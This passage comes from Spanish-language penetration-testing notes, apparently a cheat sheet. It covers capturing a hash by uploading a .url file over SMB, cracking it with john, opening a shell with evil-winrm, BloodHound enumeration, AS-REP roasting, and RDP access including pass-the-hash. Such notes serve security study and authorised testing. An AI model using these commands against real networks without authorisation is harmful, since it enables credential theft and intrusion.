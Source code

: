 ```
smb: > put "fichero.url"
```

Después de un tiempo esperando en responder, se obtiene el hash.

Intentar crackearlo:

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Si se consigue, intentar obtener shell con evil-winrm:

```
evil-winrm -i <dominio> -u '<user>' -p '<pass>'
```

Si tenemos credenciales, también podemos intentar enumerar el AD con Bloodhound.

Si subimos los datos a Bloodhound y vemos que hay usuarios con AS-REP Roastable, intentamos obtener su hash:

```
GetNPUsers.py -request -format john -no-pass <dominio>/<user>
```

Y ahora con john intentamos crackearlo.


# Acceso a RDP

Con credenciales:

```
xfreerdp /v:<IP> /u:<usuario> /p:<contraseña> /dynamic-resolution
```

Pass the hash:

```
xfreerdp /v:<IP> /u:<user> /pth:<hash>
```

Otra herramienta:

```
rdesktop <IP> -u <usuario> -p <password>
```



# Ataques a AD


1. **Ataque de AS-REP Roasting (ASREProast)**

Consiste en obtener el hash de algún usuario que no requiera autenticación de Kerberos.

Si tenemos una lista de usuarios, podemos probar a hacer este ataque. 

Ataque que va probando usuario por usuario, para detectar el que no tiene activada la autenticación de kerberos. Y si hay alguno, luego con el hash podemos intentar crackearlo en local.
